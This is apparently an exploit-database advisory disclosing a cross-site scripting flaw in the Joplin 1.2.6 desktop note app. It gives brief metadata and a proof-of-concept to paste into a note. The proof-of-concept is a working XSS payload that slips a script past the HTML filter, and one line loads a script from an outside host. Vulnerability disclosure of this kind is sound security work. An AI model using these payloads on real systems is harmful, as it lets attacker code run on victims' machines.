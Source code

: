 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting
 Date: 2020-09-21
 Exploit Author: Philip Holbrook (@fhlipZero)
 Vendor Homepage: https://joplinapp.org/
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
 Version: 1.2.6
 Tested on: Windows / Mac
 CVE : PENDING
 References:
 PENDING next release

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>


![Screen Shot 2020-10-27 at 4.42.34 PM.png](../_resources/60b6772ab455487b92268ad45a6dd677.png)

![Screen Shot 2020-10-27 at 4.42.51 PM.png](../_resources/7f76fb066b9d4e3bad4c4b59538140e4.png)

